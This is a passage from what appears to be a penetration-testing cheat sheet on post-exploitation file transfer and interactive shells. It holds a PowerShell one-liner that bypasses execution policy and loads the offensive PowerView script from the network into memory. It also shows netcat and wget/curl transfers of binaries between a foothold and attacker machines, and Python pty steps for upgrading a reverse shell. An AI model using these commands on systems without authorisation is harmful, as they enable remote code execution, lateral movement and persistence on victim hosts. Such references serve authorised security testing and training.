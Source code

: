 ##### Executing code in memory 
```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
```

### Windows to linux

Create a python server and get it from the linux machine:

On windows:
```cmd
python -m SimpleHTTPServer 80
```
On linux:
```sh
wget http://<windows-machine-ip>/<file-name>
```
#### Netcat

In command prompt:
```powershell
C:\tools\practical_tools\nc.exe -nvlp 4455 > C:\Users\offset\Desktop\binary.exe
```

In linux machine:

```sh
nc -w <windows_ip_here> 4455 < binary.exe
```

### Linux to linux

#### Wget

```sh
wget 192.168.1.102:9999/file.txt
```

#### Curl

```sh
curl -O http://192.168.0.101/file.txt
```
## Interactive shells

### Semi-interactive
Getting a semi-interactive shells is simple:

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Fully interactive shell

First, run the semi-interactive shell python command, then background the current shell process, run `stty raw -echo` in the terminal which will pass keyboard shortcuts through, then run `fg` to bring netcat back.
